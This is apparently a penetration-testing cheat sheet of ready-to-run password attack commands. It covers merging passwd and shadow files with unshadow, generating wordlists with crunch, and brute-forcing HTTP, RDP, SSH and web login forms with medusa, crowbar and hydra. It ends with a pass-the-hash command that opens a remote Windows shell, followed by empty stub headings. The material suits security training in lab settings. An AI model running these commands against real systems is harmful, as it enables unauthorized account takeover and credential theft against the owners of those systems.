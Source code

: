 #### unshadow
using unshadow command on a passwd and shadow file to create an unshadowed text file.
`unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`


#### crunch
create a password with minimum and maximum length of 8, -t to specify specific pattern. This will be a large list. (see man page)
`crunch 8 8 -t ,@@^^%%%`
create list based off specific characters and write to a file
`crunch 4 6 0123456789ABCDEF -o crunch.txt`
create list using mixedalpha, present in charset.lst
`crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt`

#### medusa
use rockyou.txt to attack /admin endpoint as admin user , use HTTP authentication scheme (-M)
`medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

#### crowbar
remote desktop attack (-b) targeting server (-s) with username (-u), wordlist (-C) and number of threads (n)
`crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1`

#### thc-hydra
hydra ssh attack using kali username and rockyou.txt
`hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`
hydra HTTP POST attack specifying username "admin" with "INVALID LOGIN" being a failure criteria
`hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`

#### pass the hash - winexe
use pth-winexe to pass the hash, executing a command prompt 
`pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd`






# ipv6
## mitm6
+

# RESOURCES
## buffer overflow
#### x86 cheat sheet
https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf

